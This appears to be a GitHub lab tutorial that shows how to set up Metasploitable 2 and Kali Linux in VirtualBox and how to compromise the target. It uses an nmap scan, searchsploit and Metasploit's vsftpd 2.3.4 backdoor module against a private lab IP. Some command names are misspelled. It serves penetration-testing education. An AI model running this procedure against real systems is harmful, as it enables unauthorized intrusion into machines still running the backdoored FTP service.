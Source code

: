 # Creating a Metasploitable Machine and Compromising it
This is the procedure to create a Metasploitable Machine and compromise the system using Metasploit.<br>
It is assumed that both the network for the Target Machine (Metasploitable 2) and the Hacking Lab (Kali Linux) are configured to NatNetwork in Virtualbox.<br>
Both should be running before performing the exploitation.<br> Metasploitable 2 has the msfconsole 6 which is what is used in the hacking process.<br>
Kali Linux version 2022.1 is used.<br>
The pdf file contains the full Metasploitable installation procedure (starting from downloading, and configuring) in Virtualbox, configuring the network interface between the Kali Linux Machine (Your hacking lab) and the Target Machine (Metasploitable) and compromising the target machine.<br>

<b>STEP 1: Power up your Kali Linux and Metasploitable Virtual Machines.<br>
STEP 2: Login to Metasploitable. We need to fetch the IP Address which is needed to compromise the system. Hence, the need to login.<br><br>
![9](https://user-images.githubusercontent.com/118365903/202857144-160dcb82-4bc1-476f-8c4f-bc8d919751eb.png)<br><br>
STEP 3: In the Metasploitable shell, run the ifconfig command to retrieve the ip address to use in Kali Linux<br>
STEP 4: In Kali Linux, make sure to login to root<br>
STEP 5: Run NMAP command to show the list of open ports to which to exploit using the IP Address retrieved in STEP 3 - nmap –Sc –Sv –O –o Metasploit 10.0.2.6<br><br>
![10](https://user-images.githubusercontent.com/118365903/202857145-5c3cdb2c-dca6-4070-ba71-fef5372f09a5.png)<br><br>
The ftp protocol running on port 21 is open and we want to exploit it. Copy the version number vsftpd 2.3.4<br>
STEP 6: To view the exploit, type the following command - searchploit vsftpd 2.3.4<br><br>
![11](https://user-images.githubusercontent.com/118365903/202857148-a65cd4f4-cdc4-4414-941a-c2b8ccdfaf85.png)<br><br>
STEP 7: Type msfconle to boot Metasploitable shell<br>
STEP 8: Search for the exploit ftp module vsftpd in the msfconsole by typing - search vsftpd<br><br>
![12](https://user-images.githubusercontent.com/118365903/202857150-39feef3e-949e-46b8-bc9a-85efc30069d2.png)<br><br>
STEP 9: Copy the name of the exploit (this shows where the directory of the exploit is stored in Kali Linux) and run the command to use the exploit - use exploit/unix/ftp/vsftpd_234_backdoor<br><br>
![13](https://user-images.githubusercontent.com/118365903/202857151-20fb6b50-09c2-4797-8dba-a4bd125ab2e8.png)<br><br>
STEP 10: Type options to show the options of the exploit module in the current folder<br><br>
![14](https://user-images.githubusercontent.com/118365903/202857152-abe7469c-42e2-4f47-bfda-6a3e546956ff.png)<br><br>
RHOSTS is the remote host (the target machine’s IP Address that you what to exploit).<br>
STEP 11: Type the command - set RHOSTS 10.0.2.6 (You should replace with your IP Address) <br>
STEP 12: Type the run command or exploit to compromise the system - run<br><br>
![15](https://user-images.githubusercontent.com/118365903/202857156-f7c129a0-0ba8-4003-a37c-9da414b99511.png)</b>
